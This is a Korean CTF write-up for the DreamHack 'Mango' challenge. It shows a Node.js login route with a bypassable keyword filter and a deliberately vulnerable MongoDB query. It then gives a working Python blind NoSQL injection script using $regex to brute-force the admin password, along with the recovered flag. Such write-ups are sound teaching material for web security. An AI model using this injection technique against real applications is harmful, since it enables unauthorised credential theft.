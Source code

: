 # [DreamHack] Mango

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다.
> 플래그는 admin 계정의 비밀번호 입니다.
> 플래그의 형식은 DH{…} 입니다.
> {‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}
>
> Release: [Mango.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8551785/Mango.zip)

## Analysis

### filter()

```javascript
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

이용자의 입력에는 대소문자 구분 없이 `admin`, `dh`, `admi` 세 단어는 포함될 수 없다.

### /login

```javascript
app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});
```

`uid`와 `upw`를 입력하면 DB에서 그 `uid`와 `upw`에 해당하는 결과를 반환한다. Blind NoSQL injection으로 `admin`의 `upw`를 알아내야 한다.

## Exploit

`admin`은 정규식을 이용하여 `uid[$regex]=adm..`으로 표현할 수 있다. 그리고 `upw`는 `DH{32alphanumeric}` 형태이므로 `D.{.*`로 표현할 수 있다. 여기에서 `D.{a.*`, `D.{ab.*` 이런 식으로 한 글자씩 브루트포싱을 해서 `admin`을 반환하는 경우를 찾아내면 된다.

```python
import requests
import string

url = 'http://host1.dreamhack.games:11885/login?uid[$regex]=adm..&upw[$regex]=D.{'
alphanumeric = string.ascii_letters + string.digits # 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
flag = ''

for i in range(32):
    for char in alphanumeric:
        res = requests.get(url + flag + char + '.*')
        if res.text == 'admin':
            flag += char
            print('DH{' + flag)
            break

print('DH{' + flag + '}')
```

```
$ python3 solve.py
DH{8
DH{89
DH{89e
DH{89e5
DH{89e50
DH{89e50f
DH{89e50fa
DH{89e50fa6
DH{89e50fa6f
DH{89e50fa6fa
DH{89e50fa6faf
DH{89e50fa6fafe
DH{89e50fa6fafe2
DH{89e50fa6fafe26
DH{89e50fa6fafe260
DH{89e50fa6fafe2604
DH{89e50fa6fafe2604e
DH{89e50fa6fafe2604e3
DH{89e50fa6fafe2604e33
DH{89e50fa6fafe2604e33c
DH{89e50fa6fafe2604e33c0
DH{89e50fa6fafe2604e33c0b
DH{89e50fa6fafe2604e33c0ba
DH{89e50fa6fafe2604e33c0ba0
DH{89e50fa6fafe2604e33c0ba05
DH{89e50fa6fafe2604e33c0ba058
DH{89e50fa6fafe2604e33c0ba0584
DH{89e50fa6fafe2604e33c0ba05843
DH{89e50fa6fafe2604e33c0ba05843d
DH{89e50fa6fafe2604e33c0ba05843d3
DH{89e50fa6fafe2604e33c0ba05843d3d
DH{89e50fa6fafe2604e33c0ba05843d3df
DH{89e50fa6fafe2604e33c0ba05843d3df}
```